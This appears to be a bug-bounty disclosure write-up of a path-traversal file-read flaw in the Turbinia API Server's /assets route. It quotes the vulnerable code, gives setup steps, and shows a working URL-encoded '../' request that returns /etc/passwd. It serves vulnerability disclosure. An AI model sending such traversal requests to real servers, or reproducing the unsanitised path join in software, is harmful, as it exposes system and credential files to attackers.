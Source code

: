 ```yaml
---
layout: post
title:  "Google: Local File Inclusion in Turbinia API Server($101)"
date:  2024-05-08 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Local File Inclusion in Turbinia API Server

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)


## Description

A local file inclusion is present in the Turbinia API Server when requesting resource files under the `/assets/{catchall:path}` route.

## Proof of Concept

The [route](https://github.com/google/turbinia/blob/1da2d19f9b79dac8df37bdf2ed4f9d5d0797607b/turbinia/api/routes/ui.py#L47) `/assets/{catchall:path}` is used for serving CSS and JS resources for Turbinia Web service. The `catchall` parameter in url is not sanitized before appended to base path, an attacker can use `../` to escape base directory and locate any file on system which will be sent back to the attacker, causing local file inclusion issue.

```
@ui_router.get(
    '/assets/{catchall:path}', name='assets', include_in_schema=False)
async def serve_assets(request: Request):
  """Serves assets content."""
  static_content_path = pathlib.Path(_config.WEBUI_PATH).joinpath('dist/assets')
  path = request.path_params['catchall']
  file = static_content_path.joinpath(path)
  if os.path.exists(file):
    return FileResponse(file)

  raise HTTPException(status_code=404, detail='Not found')
```

### Steps to reproduce

Following official [docker tutorial](https://turbinia.readthedocs.io/en/latest/user/install.html#docker-installation) to set up the Turbinia service:

```
git clone https://github.com/google/turbinia.git
cd turbinia
mkdir -p ./conf && mkdir -p ./tmp && mkdir -p ./evidence && mkdir -p ./certs && chmod 777 ./conf ./tmp ./evidence ./certs
sed -f docker/local/local-config.sed turbinia/config/turbinia_config_tmpl.py > conf/turbinia.conf
```
Then, edit the `./docker/local/docker-compose.yml`, in `turbinia-api-server` section, expose Turbinia API Server port `8000` to host mechine by adding `ports: - "8000:8000"`:

```
...
turbinia-api-server:
        #image: "turbinia-api-server-dev" # Use this for local development and comment out below line
        image: "us-docker.pkg.dev/osdfir-registry/turbinia/release/turbinia-api-server:latest" # Latest stable
        container_name: turbinia-api-server
        depends_on:
            - redis
        volumes:
            - $PWD/evidence:/evidence
            - $PWD/conf/turbinia.conf:/etc/turbinia/turbinia.conf
        environment:
            - LC_ALL=C.UTF-8
            - LANG=C.UTF-8
            - TURBINIA_EXTRA_ARGS=${TURBINIA_EXTRA_ARGS}
        expose:
            - "8000"
        ports:
            - "8000:8000"
...
```
Finally, bring up the local Turbinia stack:

```
docker-compose -f ./docker/local/docker-compose.yml up
```

After service up, the Turbinia API Server will listen on `http://127.0.0.1:8000`. Open the webpage `http://127.0.0.1:8000` in browser and intecept requests using burp suite or chrome devtools. We can capture following request:

```
GET http://127.0.0.1:8000/assets/index-a76ac6aa.js HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: fakesession=hello
Origin: http://0.0.0.0:8000
Pragma: no-cache
Referer: http://0.0.0.0:8000/web
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Postman-Token: 0ee2337d-af8f-4873-afd8-91a9c27897b1
Host: 127.0.0.1:8000
Accept-Encoding: gzip, deflate
Connection: close
```

Modify the request by change `index-a76ac6aa.js` part to `..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd` which is `../../../../../../etc/passwd` url-encoded content.

```
GET http://127.0.0.1:8000/assets/..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: fakesession=hello
Origin: http://0.0.0.0:8000
Pragma: no-cache
Referer: http://0.0.0.0:8000/web
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Postman-Token: 0ee2337d-af8f-4873-afd8-91a9c27897b1
Host: 127.0.0.1:8000
Accept-Encoding: gzip, deflate
Connection: close
```

Or just open link: `http://127.0.0.1:8000/assets/..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd` in browser.

The output is the contents of the `/etc/passwd` file:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
turbinia:x:999:999::/home/turbinia:/sbin/nologin
```

![Turbinia](/assets/cve/Turbinia.png)

## Impact

Any file on the backend filesystem can be read by an attacker with access to the Turbinia API Server website.


## Reference

[https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67](https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67)

## Occurrences

[https://github.com/google/turbinia/blob/1da2d19f9b79dac8df37bdf2ed4f9d5d0797607b/turbinia/api/routes/ui.py#L53](https://github.com/google/turbinia/blob/1da2d19f9b79dac8df37bdf2ed4f9d5d0797607b/turbinia/api/routes/ui.py#L53)
